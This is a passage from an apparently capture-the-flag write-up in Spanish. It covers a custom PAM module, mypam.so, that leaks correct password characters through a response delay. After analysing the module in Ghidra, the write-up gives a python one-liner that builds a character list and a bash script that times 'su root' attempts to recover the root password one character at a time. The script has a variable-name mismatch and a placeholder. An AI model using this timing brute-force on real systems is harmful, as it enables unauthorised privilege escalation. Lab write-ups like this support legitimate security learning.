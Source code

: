 Leyendo los archivos manipulados, encontramos que hay un archivo de autentificacion personalizado **mypam.so**.
Lo siguiente a realizar es pasarnos este archivo a nuestra maquina atacante para analizarnos con **Ghidra**. 


Analizando el archivo, podemos ver que se hace una comparativa de nuestra contraseña, con otra en un archivo del sistema, despues de esto, se hace un *unsleep(time)* para demorar un poco en la respuesta si el caracter es correcto.

-----------
#### Getting the root password by abusing time  
Podemos crear un diccionario con python de la siguiente manera:

`python3 -c 'import string; print("\n".join(string.ascii_uppercase + string.ascii_lowercase + string.digits + string.punctuation))' > characters`

y creamos un script en bash que nos automatice la autentificacion:

```bash
#!/bin/bash

TIMEFORMAT=%E
Password=<first-latter-find>

for character in $(cat characters); do

	echo -n "$password$character: "
	time printf "%-10s" $password$character | su root 2>/dev/null
	
done
```















